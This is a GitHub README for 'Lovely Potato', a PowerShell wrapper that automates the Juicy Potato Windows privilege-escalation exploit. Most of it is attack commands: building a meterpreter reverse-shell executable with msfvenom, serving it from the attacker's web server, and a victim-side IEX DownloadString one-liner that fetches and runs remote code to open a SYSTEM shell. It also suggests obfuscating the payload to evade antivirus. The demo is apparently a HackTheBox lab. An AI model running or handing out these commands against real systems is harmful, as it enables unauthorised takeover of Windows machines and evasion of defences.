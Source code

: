 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverset_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and wait **10 minutes** for reverse shell running as user NT AUTHORITY\SYSTEM!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

## Why Use Lovely Potato?
*For simplicity.*
Manually uploading various files to target host can be easily avoided with automation.
Also, listing entire CLSIDs on the system and identifying privilege for each of them takes very long time if done by sending commands.
You can easily switch binaries in the repo any time without having to recode Invoke-LovelyPotato.ps1.
Ex) Recompiling JuicyPotato for customization / Obfuscating your meterpreter for AV evasion

## Demo
Setting up & Testing Lovely Potato against HackTheBox machine (starting at 6:43)
https://youtu.be/f-JDU0GlRIw?t=403


[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
